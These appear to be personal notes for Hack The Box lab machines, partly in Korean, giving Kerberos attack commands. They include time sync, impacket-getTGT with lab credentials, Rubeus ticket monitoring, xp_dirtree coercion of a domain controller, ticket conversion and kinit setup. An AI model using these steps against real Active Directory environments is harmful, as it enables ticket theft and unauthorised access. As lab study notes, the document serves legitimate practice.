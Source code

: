 ### Time Sync
```bash
# ntpdate
sudo systemctl stop systemd-timesyncd
sudo systemctl disable systemd-timesyncd
sudo ntpdate {target dns}

# faketime
ntpdate -q {target dns}
faketime '2025-09-19 xx:xx:xx'
```

### getTGT
(When know ID:PW)
```bash
impacket-getTGT voleur.htb/'ryan.naylor':'HollowOct31Nyt'
```
(In Windows)
```cmd
Rubeus.exe monitor /interval:10 /targetuser:DC01$
```
-> 이후 남의 자산에서 ex)mssql 아래와 같이 요청을 날려준다.
```mssql
xp_dirtree \\dc02.darkzero.ext\share
```
-> 이후 아래 커맨드로 포맷 맞춰줘야 한다
```bash
base64 -d DC01.kirbi.b64 > dc01.kirbi
impacket-ticketConverter dc01.kirbi dc01.ccache
```

### Using kerberos-user
```bash
# kerberos user install
sudo apt-get install krb5-user
sudo apt install libsasl2-modules-gssapi-mit

# krb5.conf
echo '[libdefaults]
default_realm = VINTAGE.HTB
dns_lookup_realm = false
dns_lookup_kdc = false
[realms]
VINTAGE.HTB = {
kdc = dc01.vintage.htb
admin_server = dc01.vintage.htb
}
[domain_realm]
.vintage.htb = VINTAGE.HTB
vintage.htb = VINTAGE.HTB' | tee -a krb5.conf

# get ticket
export KRB5_CONFIG=`pwd`/krb5.conf
sudo net time set -S vintage.htb
echo 'Rosaisbest123' | kinit p.rosa

# Use -k flag for kerberos authentication
```
